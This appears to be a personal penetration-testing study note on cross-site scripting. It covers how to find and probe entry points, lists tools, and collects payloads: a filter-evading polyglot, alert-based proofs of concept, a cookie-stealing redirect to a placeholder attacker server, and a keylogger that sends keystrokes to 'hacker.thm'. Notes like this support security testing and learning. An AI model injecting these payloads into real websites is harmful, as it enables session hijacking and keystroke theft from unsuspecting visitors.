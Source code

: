 **Tags:** #type/tech-specific

---
Fundamentals: [[2 Tech-Specifics/Web/OWASP TOP 10/XSS Fundamentals|XSS Fundamentals]]
# Testing Method
1. find entry points - see [[2 Tech-Specifics/Web/OWASP TOP 10/XSS Fundamentals|XSS Fundamentals]]
2. check the context of the entrypoint 
	- is encoding applied?
	- surrounding source code
		- Do we need to end a string or function in javascript?
		- do we need to end an html tag?
3. input special characters to test if input sanitation is applied
	- e.g. `< > ' " { } ;` - e.g. " might end up escaped
# Tools:
- https://xsshunter.com/
- [[3 Tools/web/Burp Suite|Burp Suite]]
- [[3 Tools/web/cURL|cURL]]

> [!warning] XSS is often blocked on google chrome but possible in firefox 
>
# Payloads
in most cases you have to put some characters before the payload to close a tag or input string parameter.

useful function: `onload="alert('XSS');` to use when loading files

use Polyglots to escape all kinds of attributes and circumvent filters at once. eg: ``jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e`` ^056bc0

## Examples:
simplest proof of concept:
`<script>alert(1)</script>`
to display the websites hostname:
`<script>alert(window.location.hostname)</script>`
to display “XSS”
`<script>alert("XSS")</script>`
``_<iframe src="javascript:alert(`xss`)">_`` 

`<a onmouseover="alert(1)" href="#">read this!</a>`
### steal session cookie:
`<script>alert(document.cookie);</script>`
`<script> location.replace("[attacker webserver]?cookie=" + document.cookie) </script>`
this only works if the "httponly" attribute is not set for the cookie.
### keylogger:
`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`